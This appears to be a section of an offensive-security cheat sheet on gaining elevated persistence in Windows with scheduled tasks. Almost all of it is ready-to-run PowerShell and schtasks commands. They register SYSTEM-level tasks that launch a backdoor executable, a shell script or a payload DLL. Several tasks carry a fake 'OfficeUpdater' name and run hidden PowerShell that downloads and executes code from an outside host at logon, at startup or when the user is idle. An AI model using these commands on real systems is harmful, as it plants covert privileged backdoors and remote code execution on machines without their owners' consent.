 ### Scheduled Tasks Elevated

Scheduled Task to run as SYSTEM, everyday at 9am or on a specific day.

> Processes spawned as scheduled tasks have taskeng.exe process as their parent

```powershell
# Powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
$T = New-ScheduledTaskTrigger -Daily -At 9am
# OR
$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$S = New-ScheduledTaskSettingsSet
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
Register-ScheduledTask "Backdoor" -InputObject $D

# Native schtasks
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

##(X86) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X86) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X86) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
 
##(X64) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X64) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X64) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```
